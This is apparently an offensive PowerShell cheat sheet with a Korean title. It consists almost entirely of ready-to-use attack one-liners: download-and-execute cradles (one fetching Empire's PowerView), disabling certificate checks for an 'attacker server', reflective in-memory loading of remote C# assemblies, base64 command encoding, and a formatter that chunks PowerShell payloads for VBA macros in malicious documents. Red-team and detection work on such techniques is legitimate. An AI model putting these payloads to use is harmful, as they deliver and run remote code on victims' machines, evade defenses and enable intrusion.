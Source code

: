 # 파워쉘

Powershell load and invoke&#x20;

```
iex(new-object net.webclient).downloadstring("<url>");<function>

iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1");get-domainuser -spn
```

Ignore SSL error if attacker server uses https&#x20;

```
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
$a = (new-object net.webclient).downloadfile('<remote>','<localpath>')
```

C# Reflective loading&#x20;

```
$a = (New-Object net.webclient).DownloadData('http://<ip>:<port>/<c#-file>')
$b = [System.Reflection.Assembly]::Load($a)
$b.EntryPoint.Invoke($null, [Object[]]@( ,[String[]]@()))
$b.EntryPoint.Invoke($null, [Object[]]@( ,[String[]]@("triage")))
$b.EntryPoint.Invoke($null, [Object[]]@( ,[String[]]@("<param>")))
$b.EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

PowerSharpPack style template&#x20;

```
$a = (New-Object net.webclient).DownloadData('http://<ip>:<port>/<c#-file>')
$b = [System.Reflection.Assembly]::Load($a)
[<TOOLNAME>.<CLASS>]::main("")
```

C# Reflective loading main entrypoint - oneliner&#x20;

```
([System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://<ip>:<port>/<c#file>'))).EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

C# Reflective loading with Namespace + Classname + Function name - oneliner&#x20;

```
[System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('<location>')) | Out-Null; [<NameSpace>.<ClassName>]::<Function>(<params>)
```

base64 encoding&#x20;

```
$command= ' something something ' 
$encodedCommand = [convert]::tobase64string([system.text.encoding]::unicode.getbytes($command))
powershell -en $encodedCommand 
```

VBA string formatter for powershell&#x20;

```
$s = @'
< powershell payload > 
'@
 
<# Just copy/paste everything below! #>
$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
    
}
```

VBA string formatter for already base64 encoded powershell payload&#x20;

```
$s = @'
< powershell payload > 
'@
 
<# Just copy/paste everything below! #>
#$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$EncodedText = $s

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
}
```

